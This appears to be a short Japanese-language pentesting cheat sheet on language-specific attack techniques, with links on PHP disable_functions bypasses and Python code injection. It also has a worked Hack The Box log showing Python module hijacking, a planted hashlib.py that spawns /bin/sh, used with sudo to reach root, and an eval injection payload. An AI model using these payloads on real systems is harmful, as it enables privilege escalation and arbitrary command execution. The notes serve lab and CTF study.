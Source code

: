 # language
----

## PHP
* [dangerous functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720)
* [ RCE in PHP or how to bypass disable_functions in PHP installations](https://lab.wallarm.com/rce-in-php-or-how-to-bypass-disable_functions-in-php-installations-6ccdbf4f52bb/)
* [Bypassing PHP disable_functions with Chankro](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html)

## Python
* モジュールはsys.pathに従って読み込まれる
* 実行ファイルと同改装のディレクトリに、実行ファイルが読み込むモジュールと同名のモジュールが存在する場合、sys.pathによっては同階層のモジュールが優先して読み込まれる
* またPYTHONPATH環境変数は、通常同階層のモジュールの次に読み込まれる
* sys.pathもしくはPYTHONPATH を利用し、権限昇格が可能な場合が存在する
* Htb: Stratosphere
   ```console
   richard@stratosphere:~$ python -c 'import sys; print(sys.path)'
   ['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ PYTHONPATH='/hoo' python -c 'import sys; print(sys.path)'
   ['', '/hoo', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ printf 'import os\nos.system("/bin/sh")\n' > hashlib.py
   richard@stratosphere:~$ sudo /usr/bin/python2.7 /home/richard/test.py
   # id
   uid=0(root) gid=0(root) groups=0(root)
   ```
   
* evalやinput関数に任意の入力が可能な場合、次のペイロードが使用可能
  
  ```python
   eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
  ```
  
* [Hacking Python Applications](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
* [Exploiting Python Code Injection in Web Applications](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html)

## Perl
* [Re: The Perl Jam 2](https://kentfredric.github.io/blog/tag/the-perl-jam-2/)

